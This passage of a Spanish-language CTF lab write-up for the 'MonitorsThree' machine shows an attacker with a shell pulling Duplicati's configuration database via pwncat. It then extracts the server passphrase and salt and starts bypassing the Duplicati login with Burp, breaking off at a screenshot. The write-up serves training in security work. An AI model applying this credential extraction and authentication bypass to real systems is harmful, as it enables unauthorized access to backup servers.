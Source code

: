 Buscando por vulnerabilidades nos encontramos [el siguiente post](https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee) donde podemos construir la contraseña necesaria para iniciar sesión.

Necesitamos saber donde está la instancia de Duplicati, la encontramos en `/opt/duplicati`.
```shell
marcus@monitorsthree:/opt$ ls
backups  containerd  docker-compose.yml  duplicati
```

Nos descargamos el archivo `/opt/duplicati/config/Duplicati-server.sqlite`
```shell
(remote) marcus@monitorsthree:/opt/duplicati/config$ ls
control_dir_v2  CTADPNHLTC.sqlite  Duplicati-server.sqlite
(remote) marcus@monitorsthree:/opt/duplicati/config$ 
(remote) marcus@monitorsthree:/opt/duplicati/config$ 
(local) pwncat$ download Duplicati-server.sqlite
Duplicati-server.sqlite ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 90.1/90.1 KB • ? • 0:00:00
[23:51:20] downloaded 90.11KiB in 0.24 seconds                              download.py:71
(local) pwncat$ 
```

Lo abrimos con `sqlite3` y nos debemos quedar con este información de la tabla `Options`
```text
-2||server-passphrase|Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=
-2||server-passphrase-salt|xTfykWV1dATpFZvPhClEJLJzYA5A4L74hX7FK8XmY0I=
```

passphrase -> Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=
passphrase-salt -> xTfykWV1dATpFZvPhClEJLJzYA5A4L74hX7FK8XmY0I=

Ambas están codificadas en base64

Ahora siguiendo el post, podemos intentar autenticarnos al Duplicati con cualquier contraseña y con Burp debemos capturar la respuesta, y vemos que el `salt` coincide.
![Write-up Image](images/Screenshot_19.png)
